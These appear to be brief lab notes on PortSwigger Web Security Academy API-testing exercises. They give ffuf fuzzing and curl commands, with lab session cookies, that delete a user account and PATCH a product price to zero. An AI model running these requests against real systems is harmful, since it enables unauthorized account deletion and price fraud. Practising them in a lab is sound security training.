 ____

```bash
ffuf -w content.txt -u https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/FUZZ
```

```bash
curl https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/api/user/carlos -X DELETE -H  
'Cookie: session=wBQWoe4x6dke6hWYkh4WO0EQ9Hs2fXSY'
```



____

To change the content type, modify the `Content-Type` header, then reformat the request body accordingly. You can use the Content type converter BApp to automatically convert data submitted within requests between XML and JSON.

```bash
curl -X PATCH https://0a8200d403af68b280a4307f00cc0063.web-security-academy.net/api/products/1/pric  
e -d '{"price":0}' -H 'Cookie: session=lzNDDGErMDObJ2YNiFeCYWPcrGi4en9m' -H 'Content-Type: application/json'
```

